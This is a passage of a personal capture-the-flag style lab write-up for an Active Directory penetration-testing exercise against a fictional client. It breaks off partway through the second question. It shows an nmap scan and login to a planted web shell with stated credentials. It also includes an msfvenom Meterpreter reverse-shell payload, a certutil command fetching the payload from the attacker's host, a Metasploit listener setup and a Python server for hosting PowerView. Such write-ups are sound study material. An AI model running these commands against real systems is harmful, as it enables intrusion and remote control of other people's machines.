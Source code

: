 The complete course is [[Index |here]]
# Background
A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: ***admin:My_W3bsH3ll_P@ssw0rd!*** in place for us to start from in the /uploads directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

# Question 1: Submit the contents of the flag.txt file on the administrator Desktop of the web server

## Nmap Scan
```
┌──(root㉿kali)-[/home/z3tssu/Downloads]
└─# nmap -p80,445,135,139 -v -Pn 10.129.202.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-14 21:19 +04
Initiating Parallel DNS resolution of 1 host. at 21:19
Completed Parallel DNS resolution of 1 host. at 21:19, 0.00s elapsed
Initiating SYN Stealth Scan at 21:19
Scanning 10.129.202.242 [4 ports]
Discovered open port 135/tcp on 10.129.202.242
Discovered open port 80/tcp on 10.129.202.242
Discovered open port 139/tcp on 10.129.202.242
Discovered open port 445/tcp on 10.129.202.242
Completed SYN Stealth Scan at 21:19, 0.28s elapsed (4 total ports)
Nmap scan report for 10.129.202.242
Host is up (0.25s latency).

PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

```

## Navigating the Webserver /uploads
The instructions basically gives us a credential and a URL path to go to
http://10.129.202.242/uploads/

```
admin:My_W3bsH3ll_P@ssw0rd!
```

this seems like a directory of some sort, lets enumerate further
1. Only the antak.aspx works

![[Pasted image 20251014213138.png]]

Once we browse to the antak.aspx, we are greeted with a login page

![[Pasted image 20251014213148.png]]

lets try and use the credentials here
![[Pasted image 20251014213315.png]]

We have access using the given credentials

## Reading the Flag.txt contents
```
cat c:\users\administrator\desktop\flag.txt
```

![[Pasted image 20251014213814.png]]

# Question 2: Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer

We will have to elevate our privileges and get a proper shell on the target, lets do so using Meterpreter 

## 1. Create a PAYLOAD using MSFVenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.117 LPORT=7777 -f exe -o reverse.exe
```
## 2. Transfer the Payload to the target (certutil)

```bash
certutil.exe -urlcache -f http://10.10.14.117:8080/reverse.aspx reverse.aspx
```
## 3. Setup Listener 

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.117
LHOST => 10.10.14.117
msf6 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf6 exploit(multi/handler) > run

```
## 4. Execute the Payload on the Target



For this we will have to Kerberoast the accounts, lets try and use either PowerView or Rubeus 

## Download PowerView or Host
I already have it on my machine, but it can be downloaded here; [PowerTools/PowerView/powerview.ps1 at master · PowerShellEmpire/PowerTools · GitHub](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)
## Host PowerView using a Python Server (attacker Machine)
```
python -m http.server 9090 
```

## Download PowerView from the Target Machine
```

```

